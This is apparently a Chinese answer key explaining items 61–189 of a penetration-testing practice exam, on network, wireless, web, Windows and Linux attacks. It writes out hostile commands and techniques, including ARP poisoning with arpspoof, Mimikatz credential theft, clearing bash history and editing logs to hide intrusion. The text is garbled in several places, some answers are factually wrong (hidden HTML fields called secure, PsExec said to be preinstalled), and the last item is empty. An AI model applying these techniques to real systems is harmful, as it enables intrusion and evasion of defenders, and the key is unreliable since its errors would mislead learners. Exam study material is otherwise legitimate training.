`EternalBlue` 和 `WannaCry` 漏洞是通过利用 `SMB` 协议中的缺陷实现的。`EternalBlue` 漏洞利用了 `SMBv1` 错误处理攻击包的事实，允许攻击者在运行 `SMB` 协议的系统上远程执行恶意代码。`WannaCry` 是一种勒索软件，利用 `EternalBlue` 访问受漏洞系统并安装自身。

### 62. C 和 E
`SMB` 协议使用 `TCP` 端口 `139` 和 `445`。开启这两个端口的系统最可能是运行 `SMB` 的 Windows 主机，或者是运行 `Samba` 的 Linux 主机（`Samba` 是 `SMB` 服务的开源实现）。

### 63. A 和 B
`SNMPv1` 协议是一种较老的协议，它使用 `团体字符串`（community string）的概念代替密码。同一个 `团体字符串` 用于对网络中的每个 `SNMPv1` 主进行身份验证。按照惯例，大多数 `SNMPv1` 管理员将 `团体字符串` 设置为 `public`。即使使用了唯一的 `团体字符串`，也很容易发现，因为它们是在网络上以明文传输的。

### 64. A
`SNMP` 协议运行在 `UDP` 端口 `161` 上。

### 65. B
`SMTP` 协议用于在邮件传输代理 (`MTAs`) 之间传输电子邮件消息。

### 66. B
利用开放的 `SMTP` 服务发送未经授权的电子邮件被称为 `SMTP 继继`。大多数新系统都有防止这种情况发生的预防措施，但许多旧的服务器系统没有。

### 67. A
利用开放的 `SMTP` 服务发送未经授权电子邮件的一种方法是使用 `Telnet` 客户端连接到端口 `25` 上的 `SMTP` 服务器 IP 地址。一旦建立连接，你就可以使用命令行界面来创建并发送消息。

### 68. A 和 B
默认情况下，`FTP` 服务器使用两个端口：`20` 和 `21`。端口 `20` 用于在 `FTP` 服务器和 `FTP` 客户端之间传输数据。端口 `21` 用于在 `FTP` 客户端和 `FTP` 服务器之间发送命令。

### 69. C
`FTP` 协议的一个关键缺陷是它在 `FTP` 服务器和 `FTP` 客户端之间以以文文形式传输所有数据，包括身份验证凭据。通过嗅探 `FTP` 流量，你可能捕获 `FTP` 用户名和密码。某些 `FTP` 服务器实现利用现有的网络用户账户和密码来验证 `FTP` 连接。因此，通过捕获 `FTP` 身份验证凭据，你可能也会捕获内部网络用户账户和密码。

### 70. A
这是一个 `DNS poisoning` 的示例。该漏洞利用了用户对看似有效的 `URL` 的信任。由于用户输入了有效的 `URL`，他们不知道攻击正在进行。然而，`DNS` 服务器本身已被重新配置，将 `URL` 中的域名解析到恶意服务器的 IP 地址。

### 71. A
防御 `DNS poisoning` 的一种方法是实现 `DNSSEC`。`DNSSEC` 使用数字签名对每个 `DNS` 请求进行签名以确保真实性。这使得插入毒化记录变得困难。

### 72. C
这是一个 `DNS cache poisoning` 的示例。渗透测试者并没有攻破受严格保护的 `DNS` 服务器，而是简单地攻破安全性较低的工作站上的 `DNS cache`。最终效果相同。恶意软件是 `DNS cache poisoning` 漏洞的常见传输载体。

### 73. C
这也是 `DNS cache poisoning` 的示例。在这种场景下，并不是毒化工作站上的本地 `DNS cache`，而是仅缓存的 `DNS` 服务器的缓存被毒化了。毒化记录将留在缓存中，直到达到 `TTL` 值。

### 74. D
这是一个 `pass-the-hash` 攻击的示例。在这种攻击中，测试者捕获哈希处理过的 `NTLM` 用户凭据，然后在稍后的时间重用它们对 Windows 系统进行身份验证。由于 `NTLM` 身份验证使用哈希凭据，测试者不需要知道受害真实的用户名和密码。哈希凭据足以创建一个新的身份验证会话。

### 75. B
这是一个 `ARP spoofing` 的示例。在这种攻击中，测试者在网络分段上发送伪造的 `ARP` 广播，将合法网络主机的 IP 地址映射到她的 `MAC` 地址。结果是所有指向合法主机的流量都将被重定向到测试者的系统。

### 76. B
`ARP spoofing` 攻击被归类为中间人攻击。

### 77. D
这是一个 `replay attack` 的示例。测试者从无线网络中捕获有效的握手数据，并在稍后重放这些数据，以将其笔记本电脑对无线网络进行身份验证。

### 78. D
`replay attack` 也被归类为中间人攻击。

### 79. A
这是一个 `relay attack` 的示例。攻击者位于两个主机之间（在这种情况下是工作站和服务器）。对于服务器来说，攻击者冒充工作站；对于工作站，攻击者冒充服务器。

### 80. A
这也是 `relay attack` 的示例。攻击者位于两个主机之间（在这种情况下是工作站和服务器）。对于服务器来说，攻击者冒充工作站；对于工作站，攻击者冒充服务器。在 `relay attack` 中，中间人可能会或可能修改两个主机之间的数据。

### 81. A
在 `SSL stripping` 攻击中，用户向 Web 服务器发送 `HTTPS` 请求。这样做是为了确保服务器与浏览器之间的通信是加密的。然而，漏洞欺骗了 Web 服务器，认为用户想要标准的 `HTTP` 连接，从而建立了未加密会话。除非用户仔细观察，否则可能不会意识到这种情况。

### 82. C
防御 `SSL stripping` 攻击的最佳方法是实现 `HTTP 传输安全` (`HSTS`) 策略，除非使用 `HTTPS` 连接从 Web 服务器传输页面到客户端，否则用户的浏览器将不会打开网页。

### 83. B
在这个示例中，发生了一个降级中间人攻击，因为 `SSL 2.0` 没有 `TLS 1.2` 安全。除非用户格外警惕，否则他们可能不会注意到使用的是 `SSL` 而不是 `TLS` 来保护会话。

### 84. A
通过发送伪造的 `ARP` 消息，测试者的工作站可以欺骗客户端工作站认为它是 Web 服务器，将服务器的 IP 地址与她的工作站的 `MAC` 地址关联。同样，服务器也可以被欺骗认为她的工作站是终端用户的工作站，方法也一样，向服务器发送伪造 ARP 消息将客户端 IP 地址映射到她的 MAC 地址。

### 85. A
通过向服务器发送不会完成的半打开 `TCP` 连接，测试者导致服务器没有足够的资源来处理合法的网络请求。由于只使用主机进行压力测试，这是一个标准的拒绝服务 (`DoS`) 攻击示例。

### 86. B
通过向路由器发送伪造的 `ICMP` 流量，测试者使路由器难以处理合法的网络请求。由于使用了多个主机进行压力测试，这是一个标准的分布式拒绝服务 (`DDoS`) 攻击示例。


# 87. A. 网络访问控制（NAC）系统要求网络主机在允许访问网络之前必须满足安全策略要求，即使它们已经正确连接到网络端口或关联到接入点。未经授权或不健康的设备通常会被放置在隔离的补救网络中，直到它们获得授权或符合合规性。之后，它们才被允许连接到实际网段。

# 88. B. 进行 NAC 绕过攻击的一种方法是使用授权设备的 `MAC` 地址对测试系统进行欺骗。只要测试者的系统符合组织的安全策略要求，`NAC` 系统就会允许其访问生产网络。

# 89. D 和 E. VoIP 电话和 SCADA 设备通常无法配置为满足 `NAC` 系统的安全策略要求。例如，你通常无法在 VoIP 电话或 `SCADA` 设备上安装反恶意软件。因此，这些系统在 `NAC` 实现中通常被列入白名单，允许它们绕过适用于其他系统的要求。

# 90. A. `802.1q` 规范允许 VLAN 标签的双重标记。这允许主机在不同的 VLAN 之间进行“跳跃”。

# 91. C. 这是一个用于 VLAN 跳跃的交换机欺骗攻击示例。在交换机欺骗攻击中，测试者的网络网卡被重新配置为仿真网络交换机上的干口（trunk port）。通过这种方式，真实的交换机会认为它需要将所有 VLAN 的流量转发到测试者的设备。

# 92. A. 在 `Karma` 攻击中，测试者使用特殊的无线设备监听其他设备的 `SSID` 请求，然后伪装成被请求的接入点进行响应。受害者认为他们连接到了合法网络，但实际上直接连接到了测试者。测试者通常会将受害者的流量转发到互联网，因此一切看起来正常。这允许测试者检查受害者的流量并捕获敏感信息。

# 93. B 和 C. 在典型的恶性孪生攻击中，测试者首先进行取消认证攻击，断开受害者无线设备与真实网络的连接。然后这些设备会自动重新连接到测试者的无线接入点，该接入点配置了与目标组织相同的 `SSID`。测试者可能会增大恶性孪生无线电的增益，因为大多数无线网络接口会默认选择信号最强的接入点。

# 94. D. 在分段无线攻击中，从捕获的数据包中提取少量密钥材料。然后，向接入点发送一个带有已知内容的 `ARP` 数据包。如果 `AP` 回显了数据包，则可以从返回的数据包中获得更多的密钥信息。如果反复此过程，整个无线密钥就会暴露。

# 95. B. 在凭据收割攻击中，使用一个看起来像合法网站的伪网站来捕获受害者的用户名和密码。在无线攻击的上下文中，可以使用一个看起来像合法的强制门户（captive portal）的伪造强制门户来实现这一目标。

# 96. D. 许多无线设备使用 Wi-Fi 安全设置（`WPS`）系统来简化与无线网络的连接。然而，大多数 `WPS` 实现都有一个致命缺陷，即它们使用简单的八位 PIN 码来验证无线设备。由于长度较短，PIN 可以很快被破解，允许测试者绕过要求。

# 97. C. 在 `bluejacking`（蓝牙雅持）攻击中，通过 `Bluetooth` 向移动设备发送未经请求的消息。

# 98. B. 在 `bluesarfing`（蓝牙扫描）攻击中，测试者捕获 `Bluetooth` 连接。

# 99. D. 在 `RFID` 克隆攻击中，测试者复制 `RFID` 签名。

# 100. D. 在 `jamming`（干扰）攻击中，测试者传输无线信号以干扰网络。

# 101. B. 在重复攻击中，测试者捕获会话密钥以扩展其访问权限。

# 102. A. 这是一个 `SQL injection` 的示例。测试者在 Web 表单中插入了 `SQL` 语句。

# 103. A. 这是一个暴力破解攻击的示例。在暴力破解攻击中，将尝试尝试所有可能的字母、数字和特殊字符组合，直到找到正确的组合。

# 104. B. 这是一个会话劫持的示例。测试者能够利用会话密钥（`cookie`）获取会话访问权限。

# 105. C. 这是一个重定向攻击的示例，因为用户被钓鱼邮件重定向到了虚假网站。

# 106. C. 这是一个默认凭据攻击的示例。大多数网络设备（包括接入点、路由器、防火墙等）在出厂时都预配置了默认凭据。

# 107. A. 该设备容易受到弱凭据攻击的影响，因为管理员用户名和密码很容易猜。

# 108. D. 这是一个 `Kerberos` 攻击的示例。接收票据授予票（`TGT`）允许用户获得额外的服务授予票据（`TGS`），这些票据授予访问特定网络服务的权限。因为它允许用户获取其他 `TGS` 票据，`TGT` 有时被称为*黄金票*（golden ticket）。由于 `TGS` 票据只能用于访问特定的网络服务，它有时被称为*银色票*（silver ticket）。

# 109. A 和 B. 在参数污染攻击和不安全的直接对象引用攻击中，渗透测试人员都会修改 HTTP 请求中的参数来获取未经授权的信息访问权限。


## 110. D.
在 DOM XSS 攻击中，攻击者利用了受害者网络浏览器的漏洞。通常，过时的浏览器最容易受到此类攻击的影响。这被认为是一种客户端 XSS 攻击。

## 111. A and B.
存储型（持久型）XSS 攻击和反射型 XSS 攻击都被视为服务器端攻击，因为恶意脚本被嵌入在服务器上。当用户查看网页时，这些恶意脚本会运行，允许攻击者捕获信息或执行其他操作。

## 112. B.
这是一个跨站请求伪造（CSRF）的示例。由于网站的会话 Cookie 被存在本地，用户会一直登录该网站。因此，电子邮件中包含的修改密码的 HTTP 请求不需要身份验证即可执行。渗透测试人员现在可以以高级员工身份登录 `Active Directory`（活动目录）。

## 113. C.
在点击劫持（Clickjacking）攻击中，测试人员在网页上添加透明层，试图欺骗用户点击透明层上的隐藏按钮或链接。这允许测试人员劫持用户的点击并将其发送到不同的网站（例如凭据窃取网站）。

## 114. A.
如果 Web 服务器配置中允许目录遍历（Directory Traversal），那么它可能会向通过浏览器访问网站的用户暴露 Web 服务器的文件系统，包括 Web 服务器根目录之外的目录。例如，`Apache` Web 服务器可以在 `chroot jail` 中运行，以防止用户访问 Web 服务器目录之外的目录。

## 115. B.
Cookie 操纵是一种客户端安全配置错误，允许在浏览器中运行的脚本向客户端 Cookie 写入数据。

## 116. C and E.
文件包含（File Inclusion）是一种攻击，允许测试人员向 Web 应用程序上传文件（通常包含恶意代码）。该文件可以是本地的，也可能位于远程网站上。这本质上是一种注入攻击，和任何注入攻击一样，Web 应用程序开发者对输入进行验证是防止此类攻击的关键。

## 117. A and E.
虽然对应用程序源代码进行注释是程序员的最佳实践，但它也可能产生安全漏洞，因为它为查看源代码的攻击者（或渗透测试人员）提供了关于应用程序如何运行的大量信息。同样，提供过于详细的错误信息可能是编写应用程序时的最佳实践，但在发布的应用程序中保留它们可能会为攻击者提供有价值的信息。

## 118. C and D.
程序员应该确保包含相应的程序，在遇到错误情况时告诉应用程序应该做什么。例如，许多缓冲区溢出攻击利用了那些在接收到比预期更多的信息时不知道如何响应应用程序。同样，所有应用程序都应对其代码进行数字签名。这将暴露对代码进行的任何未经授权的。

## 119. D.
该场景中的程序员使用了硬编码凭据（Hard-coded credentials）。如果攻击者（或渗透测试人员）查看应用程序的源代码，他们将获得数据库身份验证凭据。

## 120. C.
该场景中的程序员在 `HTML` 代码中使用了隐藏元素。这是一种安全的编码实践，可能会导致敏感信息存储在用户的浏览器（`DOM`）中。

## 121. A.
发现与特定操作系统版本相关的漏洞的有效方法是咨询常见漏洞与披露（`CVE`）数据库。可以通过 `http://cve.mitre.org` 访问 `CVE` 数据库。它包含一个公开的网络安全漏洞列表。每当供应商发现其产品存在漏洞时，他们就会向 `CVE` 数据库添加条目。该数据库包含 `Windows`、`Mac OS`、`Linux`、`UNIX`、`Android` 和 `iOS` 操作系统的漏洞信息。

## 122. C and D.
`FTP` 和 `Telnet` 被认为是不安全的服务和协议。这是因为它们通过网络明文传输数据（包括身份验证凭据）。这些信息可以使用嗅嗅器轻松捕获。

## 123. A and D.
虽然 `SSHv1` 使用加密数据传输，但它被认为没有 `SSHv2` 安全。然而，许多旧的 `Linux` 或 `UNIX` 系统可能仍配置为使用 `SSHv1`。同样，`TLS 1.2` 被认为比 `SSL 2.0` 更安全。

## 124. B and C.
在 `Linux` 上为可执行文件分配 `SUID` 权限允许其以所有者的权限运行。如果所有者是 `root`，它将以 root 权限执行。同样，为执行文件分配 `SGID` 允许其以所属组的权限运行。如果所属组是 `root`，它将以 root 权限运行。

## 125. C.
当在 `Linux` 系统的目录上分配粘滞位（Sticky bit）权限时，用户只能删除其所有的文件。

## 126. A.
在 `Linux` 上，标准用户可以使用 `sudo` 程序提升权限并以 root 用户身份运行。

## 127. C.
在 `Linux` 系统上，`Ret2libc` 攻击会导致子程序的返回地址被替换进程内存中已存在的子程序地址。

## 128. A.
在 `Windows` 系统上，`cPassword` 是在组策略偏好（Group Policy Preference）项中存储密码的属性名称。每当偏好需要保存用户密码时，它都会以加密格式存储在该属性中。然而，域中的任何经过身份验证的用户都可以轻松解密密码。

## 129. B.
你应该建议他们使用端口 `636` 的 `LDAPS` 来管理用户账户。`LDAPS` 使用 `SSL` 保护。端口 `389` 上的标准 `LDAP` 以明文在网络上传输数据。这意味着你提交的访问目录服务的管理员用户凭据，以及被管理的用户的任何凭据都以明文形式传输。

## 130. B.
该场景中的渗透测试人员正在使用名为 `Kerberoasting` 的漏洞。任何有效的域用户都可以请求已注册服务的 `SPN`。作为结果收到的 Kerberos 票据可以被离线破解，从而可能暴露服务账户密码。这可能导致权限提升，因为服务账户拥有本地服务器的管理员级权限的情况并不罕见。

## 131. A.
本地安全子系统服务（`LSASS`）是一个运行在 `Windows` 系统上的进程，用于实施系统上的安全策略。它验证登录系统的用户、管理用户密码更改、创建访问令牌并向安全日志创建记录。

## 132. A.
使用预启动执行环境（`PXE`）在网络上运行无人安装可能会导致身份验证凭据以明文形式传输。在无人安装期间，使用一个名为“答案文件”（answers file）的特殊文件来自动化安装过程。如果答案文件中包含安装期间要在系统中创建的用户账户信息，这些信息将以明文形式传输。

## 133. D.
`Windows` 系统上的 `SAM` 数据库包含本地账户的哈希密码。默认情况下它位于 `C:\Windows\System32\config\`。如果可以制作该文件的备份，可以使用互联网上提供的多种不同工具对其进行破解，以暴露其中包含的密码。


### 134. D. 这是一个 DLL 劫持利用的示例。恶意 DLL 可能包含与原始 DLL 相同的函数，允许依赖它的应用程序能够正常运行。然而，它也可能包含在 DLL 加载时执行的恶意代码。

### 135. A 和 B。对服务使用未加引号的路径是 Windows 系统上服务被利用的一种方式。通过不给服务路径加引号，目录名称中的任何空格都无法被正确处理，并导致故意放置在生成的无引号路径中的恶意服务可执行文件被加载，而不是正确的服务可执行文件。此外，写入的服务的可执行文件可以被具有相同文件名的恶意执行文件替换。

### 136. C. 要实施 DLL 劫持利用，渗透测试人员需要对目标文件具有读/写权限。使用不安全的文件和文件夹权限可以让这项任务变得更容易完成。

### 137. A 和 D. DLL 劫持和计划任务都可以帮助 Windows 系统上的漏洞利用保持持久化。DLL 劫持会导致每当启动链接的应用程序时，恶意 DLL 中包含的利用程序被加载。使用计划任务可以确保定期运行利用程序。

### 138. B. 系统管理员防止内核利用的最佳防御是让操作系统保持来自供应商的最新补丁更新。常见漏洞与披露（`CVE`）数据库包含了已知的 Windows、Mac OS、Linux、UNIX、Android 和 iOS 操作系统内核的漏洞信息。

### 139. C. 在此场景中，渗透测试人员利用了防火墙管理员未能修改防火墙设备上默认帐户设置的问题。大多数网络设备（包括接入点、路由器、防火墙等）在出厂时都预配置了默认管理凭据。这些默认帐户设置在互联网上有详尽的文档。如果管理员忘记更改它们，测试人员就可以利用它们来获取设备的管理权限。

### 140. B、C 和 D。Shell 升级、VM 逃逸和容器逃逸都是沙箱逃逸利用的示例。

### 141. A. 测试人员实施了冷启动攻击。通过从闪存驱动启动 Linux，她能够绕过许多 Windows 安全机制并访问密钥文件。

### 142. D. JTAG 端口在某些制造商制造的主板上实现，用于诊断和测试目的。有了正确的设备，渗透测试人员可以连接到此端口并直接从运行的主板中提取数据。

### 143. B. 网络设备上启用串口控制连接的风险在于，网络管理员往往不会对其进行妥善保护。由于它们只能通过直接的点对点连接访问，因此它们没有配置需要身份验证。使用冒充技术，只要渗透测试人员能够获得物理访问权限，就可以轻松访问设备。

### 144. A. 远程过程调用（`RPC`）/分布式组件对象模型（`DCOM`）用于 Windows 系统，并允许你在不同的 Windows 系统上远程执行代码。

### 145. A. `PsExec` 是一个默认安装在 Windows 系统上的命令行实用，允许你交互式地在其他 Windows 系统上执行进程。

### 146. C. Windows 管理体系规范（WMI）是微软提供的一种基础设施，用于通过网络连接集中管理 Windows 系统。

### 147. C 和 D。PowerShell（`PS`）远程运行允许你在网络环境中的其他 Windows 系统上远程运行 PowerShell 插件。Windows 远程管理（`WinRM`）是一个允许 Windows 管理员使用 WS Management 协议管理远程系统的系统。

### 148. B. 远程桌面协议（`RDP`）用于 Windows 系统，通过网络连接在本地系统上显示远程 Windows 宿机的图形桌面。它提供了完全的点点交互性。它甚至可以用于将声音从远程系统传输到本地系统，并在系统之间共享文件。

### 149. C. Apple 远程桌面（`ARD`）可以使用图形用户界面通过网络连接远程管理 Macintosh 系统。

### 150. A. 只要在本地和远程系统上安装了必要的软件，虚拟网络计算（`VNC`）连接就可以通过图形用户界面通过网络连接远程管理 Windows、Mac 或 Linux 系统。

### 151. A. X11 转发可以使用图形用户界面通过网络连接远程管理 Linux 系统。

### 152. C. 在进行渗透测试时应避免使用如 `Telnet`、`rlogin` 和 `rsh` 等工具，因为它们以明文形式在网络上传输数据。这使得防御者更容易看到你在测试期间在做什么，而你很可能会被发现。

### 153. B. 在涉及 Linux 系统的渗透测试中，可以用于建立持久化的技术是使用 `cron` 调度作业来运行利用脚本或启动守护进程。这确保了在你离开系统后，这些任务会自动发生而无需人工干预。

### 154. B 和 C。在图形环境中，你可以使用任务计划程序自动运行任务（如利用可执行文件或服务），而无需你的干预。你也可以从命令行提示符使用 `at` 命令来实现相同。

### 155. B. 木马是一种恶意软件，它提供有用的功能，但在运行时会秘密执行恶意操作。例如，它可能提供一个用户喜欢的娱乐游戏。然而，在后台，它可能正在运行键盘记录器、创建后门，甚至让系统成为僵尸网络中的僵尸主机。

### 156. A 和 B. 为了确保利用的持久化，你可以在系统中创建一个后门或为自己创建一个帐户。

### 157. C 和 D. 在清理踪迹的过程中，你应该考虑采取如删除或隐藏复制到系统的文件等行动。你还可以考虑修改入侵系统时创建的日志条目。然而，在修改日志文件时需要注意两点：首先，确保渗透测试的工作范围允许你修改日志文件，有时这是不允许的。其次，你不应该删除所有的日志条目，这会让防御者立刻发现你已经入侵了系统。

### 158. C. `chkconfig` 是一个管理服务在哪些运行级别运行的工具。`chkconfig` 可查看或更改运行级别。使用 `chkconfig --del <servicename>` 将将指定的服务设置为不在当前运行级别运行，并移除持久化。

### 159. C. `reg save` 将注册表中指定的子项、条目和值保存到指定文件中。`.reg` 扩展名的文件是 Windows 注册表使用的注册文件。这些文件可以包含配置单元、键和值。

### 160. A. 在这种情况下，渗透测试人员需要接收客户端无线设备使用的频段和频率才能进行无线渗透测试。无线设备可能在多个频段和频率上运行，确切的频段和频率将允许渗透测试人员按照要求进行无线渗透测试。


### 161. 钓鱼攻击
钓鱼攻击针对密码、用户名或信用卡信息等敏感信息。鱼叉式钓鱼（Spear phishing）针对的是特定的个人，而不是更广泛的群体。短信钓鱼（或称 smishing）是通过短信信息进行的钓鱼。SMS 代表短信息服务（Short Message Service）。它是使用手机发送和接收文本消息或短邮件的一种方式。SMS 攻击试图通过短信欺骗个人，或引导其访问假网站并输入个人信息来获取个人信息。在这种场景下，你针对的是一个特定的个人而不是群体。

### 162. OSINT（开源情报收集）
在这种场景下，由于你正试图对公司员工进行开源情报收集（OSINT），最好是向员工发送伪造邮件，查看他们是否会回复敏感信息。如果约定规则允许且包含在工作范围内，渗透测试人员需要准备好在测试计划中加入社会工程学。

### 163. 注册表与 Mimikatz
使用 `reg add` 可以向注册表中添加新的子项或项。语法如下：`reg add <KeyName> /v <ValueName> /t <DataType> /d <Data>`

* `KeyName` 指定要添加的子项或项的完整路径。
* `/v <ValueName>` 指定在指定的子项下要添加的注册表项名称。
* `/t <DataType>` 指定注册表项的类型。
* `/d <Data>` 指定新注册表项的数据。

渗透测试人员通常专注于使用最容易的攻击向量来实现目标。一种常见的攻击方法是使用名为 `Mimikatz` 的工具。它可以从被破坏 Windows 系统的内存中提取明文凭据。当启用 `WDigest` 身份验证协议时，明文密码存储在本地安全权威子系统 (`LSASS`) 中，使其容易被窃取。Windows 10 默认禁用了 `WDigest`。

### 164. 降级攻击
降级攻击是一种攻击形式，测试人员强制网络通道切换到安全性较低或不受保护的数据传输标准。协议降级是中间人攻击的组成部分，用于拦截加密流量。降级攻击通过导致客户端和服务器使用安全性较低的协议来工作。在这种场景下，由于你试图捕获所有未加密的 Web 流量，你将希望实施 HTTP 降级攻击。

### 165. TCP SYN 洪水攻击
TCP SYN 洪水（也称为 SYN 洪水）是拒绝服务（DDoS）攻击的一种形式，测试人员向目标系统发送一系列 SYN 请求，试图消耗足够的服务器资源，以使系统对真实流量无响应。这利用了正常 TCP 三次握手的一部分，并消耗了目标服务器的资源，使其无法响应。

### 166. 跨站脚本 (XSS)
在跨站脚本（XSS）攻击中，攻击者在网站上嵌入脚本命令，这些命令稍后将被访问该网站的毫无防备的游客执行。其思想是欺骗访问信任网站的用户执行由不受信任第三方放置在那里的恶意代码。在这种场景下，攻击者开发了一个针对 Web 浏览器的应用程序，在此过程中允许访问用户的银行信息，窃取资金并将其转移到另一个账户。

### 167. 社会工程学：权威性
社会工程学针对人而非计算机，依赖于个人或群体违反安全程序、政策和规则。社会工程学可以通过面、电话、短信或电子邮件进行。在这种场景下，攻击者使用了社会工程学的权威性原则。权威性遵循人们倾向于服从权威人物信念，即使他们被要求执行违规的行为。

### 168. 存储型 XSS
存储型跨站脚本（XSS）是最危险的跨站脚本类型。允许用户存储数据的 Web 应用程序可能暴露于此类攻击。存储型 XSS 发生在 Web 应用程序从用户处收集可能的恶意的输入，然后将该输入存储在数据存储中以供以后使用。

### 169. ARP 欺骗
ARP 欺骗是一种技术，攻击者向局域网中发送（伪造的）地址解析协议（ARP）消息。通常，目标是将攻击者的媒体访问控制（MAC）地址与另一个主机（如默认网关）的 IP 地址关联，导致任何发往该 IP 地址的流量都被发送给攻击者。ARP 欺骗可能允许攻击者拦截网络上的数据帧、修改流量或停止所有流量。

### 170. 中间人
中间人攻击拦截两个系统之间的通信。ARP 代表地址解析协议，它允许网络将 IP 地址翻译为 MAC 地址。在这种场景下，攻击者想要执行中间人攻击；这是通过执行 `arpspoof -t <victimIP> <gatewayIP>` 完成的。`-t` 参数指定要进行 ARP 投毒的特定主机。

### 171. 网络爬取
网络爬取自动提取数据并以测试人员可以轻松理解的格式呈现数据。在这种场景下，`Python` 被用作爬取语言，并配合名为 `BeautifulSoup` 的强大库。`BeautifulSoup` 是用于解析 HTML 和 XML 文档的 Python 包。它为解析后的页面创建一个解析树，可以从 HTML 中提取数据，这对于网络爬取非常有用。Beautiful Soup 帮助测试人员从网页中抓取特定内容、移除 HTML 标记并保存信息。它是一种网络爬取工具。

### 172. 点击劫持
点击劫持是指测试人员使用多个透明层，欺骗用户点击另一个页面上的按钮或链接，而用户本意是点击顶层页面。测试人员正在“劫持”点击并路由到另一个页面。在 Web 浏览器中，点击劫持是一个跨浏览器和平台的安全问题。点击劫 以嵌入代码或脚本的形式出现，可以在用户不知的情况下执行，例如点击一个执行其他功能的按钮。

### 173. 锁锁绕过
锁绕过顾名其实，即在不破锁的情况下绕过锁。在这种场景下，测试人员正在使用门下工具进行物理安全评估，该工具从门下方进入并拉开内部门手。

### 174. HTML 表单
HTML 表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`。指定的方法决定了表单数据如何提交到服务器。使用 `GET` 时，参数留在浏览器历史中，因为它们变成了 URL 的一部分。使用 `POST` 时参数不会保存在浏览器历史中。与 `POST` 相比，`GET` 的安全性较低，因为发送的数据是 URL 的。

### 175. 社会工程学：CEO 诈骗
社会工程学针对人而非计算机，依赖个人或群体违反安全程序、政策和规则。社会工程学可以通过面、电话、短信或电子邮件进行。在这种场景下，攻击者使用了社会工程学的权威原则。他们希望财务总监收到 CEO 的邮件后不会产生任何疑问并进行转账。

### 176. Kerberoasting
Kerberoasting 是一种依赖于请求服务账户服务主体名称（SPN）票据的技术。票据使用与 SPN 关联的服务账户的密码进行加密，这意味着一旦测试人员使用 `Mimikatz` 等工具获取了服务票据，测试人员就可以离线破解工具破解票据以获取服务账户密码。Kerberoasting 是一个四个步骤的过程：


1. 扫描活动目录（Active Directory），查找了服务主体名称 (`SPNs`) 的用户账户。
2. 使用 `SPNs` 请求服务票据。
3. 从内存中提取服务票据并保存到文件中。
4. 对服务票据中的密码进行离线破解攻击。

### 177. C.
如果测试人员拥有访问 Windows 工作站或服务器的权限，他们可以使用 `PowerSploit`，该工具提供了维持持久性和执行进一步侦察所需的工具包。测试将希望利用 `HKEY_CURRENT_USER` 注册表单元。`HKEY_CURRENT_USER` 单元的设计旨在仅供当前登录的用户使用。因此，当另一个 Windows 用户登录系统时，会加载另一个 `HKEY_CURRENT_USER` 注册表单元副本。当用户注销时，`HKEY_CURRENT_USER` 注册表单元会被保存为文件 `NTUSER.DAT` 或 `USER.DAT`。可以使用记事本 (`Notepad`) 打开此注册表单元，并轻松找到加密的登录 ID 和密码。如果用户具有漫游配置文件，则 `NTUSER.DAT` 文件将保存到用户登录过的每个工作站上。

### 178. A.
Wi-Fi 安全访问 2 – 预共享密钥 (`WPA2-PSK`) 是一种使用 `WPA2` 和可选的预共享密钥 (`PSK`)认证来加密网络的方法。要使用 `WPA2-PSK` 加密网络，你需要为路由器提供一个 8 到 63 个字符的纯英语短语。Wi-Fi 去认证攻击是一种拒绝服务攻击，其目标是用户与 Wi-Fi 无线接入点之间的通信。测试人员可以随时向无线接入点发送去认证帧，并使用伪造的受害者地址。

### 179. C.
`PsExec` 是一种允许渗透测试人员通过端口 `445`  `SMB` 在远程系统上运行程序的工具。这使其成为一个非常有用的工具。`PsExec` 远程运行进程的能力要求本地和远程计算机都启用文件和打印机共享（即 `Workstation` 和 `Server` 服务）以及默认的 `Admin$` 共享，该是一个映射到 `\\windows` 目录的隐藏共享。

### 180. B.
`chmod` 是一个命令和系统调用，用于更改文件系统对象（文件和目录）的访问权限。`chmod 4111` (`chmod a+rwx,u-rw,g-rw, o-rw,ug+s,+t,g-s,-t`) 设置权限使得：(U)用户/所有者不能读取、不能写入但可以执行。(G)组不能读取、不能写入但可以执行。(O)其他人不能读取、不能写入但可以执行。`sudo` 是一个用于 Unix 类计算机操作系统的程序，允许用户以其他用户（默认是超级用户）的权限权限运行程序。在这种情况下，命令 `chmod 4111 /usr/bin/sudo` 将导致 `sudo` 配置错误。

### 181. D.
使用者备用主体名称 (`SAN`) 是 `X.509` 的扩展，允许通过 `subjectAltName` 字段将各种值与安全证书关联。这些值被称为 `SANs`，包括电子邮件地址、IP 地址、URL、DNS 名称、目录名称以及其他后跟数值的名称。使用 `SAN` 可以提供扩展的站点验证。

### 182. B.
在这种场景下，`..` 运算符是攻击者试图进行目录遍历攻击的显性线索。这种特定攻击试图突破 Web 服务器的根目录并访问服务器上的 `/etc/passwd` 文件。目录遍历攻击是一种 HTTP 攻击，允许攻击者访问受限的目录并在 Web 服务器的根目录之外执行命令。

### 183. A.
当双方之间的通信被外部实体拦截时，就会发生中间人攻击。中间人攻击是一种常见的网络安全攻击类型，允许攻击者窃听两个目标之间的通信。攻击发生在两个合法通信的主机之间，允许攻击者“倾听”会话内容。

### 184. B.
`bash history` 记录了测试人员在 Linux 命令行上执行的所有命令。这允许测试人员通过使用向上和向下方向键滚动命令历史文件，轻松地运行之前执行过的命令。从 Linux 终端中删除命令行历史的主要原因是防止另一个用户使用测试人员之前的命令。要删除或清除 bash 历史中的所有条目，请使用带有 `-c` 选项的 `history` 命令：
```
$ history -c
```

### 185. A.
冒充涉及伪装成他人以获得设施或资源的访问。这可能简单到声称是工作人员，也可能复杂到穿着制服并出示假的公司 ID。在这种情况下，攻击者给帮助台人员打电话，假装是一名员工。

### 186. E and F.
鉴于此场景，客户将希望对 SQL 语句使用黑名单和名单验证。SQL 注入是一种常见的攻击路径，使用恶意的 SQL 代码进行后端数据库操作，以访问非预期显示的信息。SQL 注入是最常见的 Web 黑客技术之一。黑名单验证根据一组已知的恶意输入对外部输入进行测试。名单验证根据一组已知的通过输入对外部输入进行测试。

### 187. D.
`pty` 模块允许渗透测试人员生成一个伪终端，从而欺骗 `su` 等命令认为它们正在终端中执行。要升级 shell，只需运行该命令。`su` 是一个 Unix 命令，意为切换用户。它被计算机用户以另一个用户的权限执行命令。执行时，它会调用 shell 而不改变当前目录。

### 188. C.
尾随攻击（Piggybacking）依赖于跟随员工进入安全门或其他入口。高安全性组织可能会使用人肉门（mantrap）来防止尾随。实施良好的人肉门一次允许一个人通过，这个人必须解锁两扇门，但只有一个可以打开。

### 189. C.
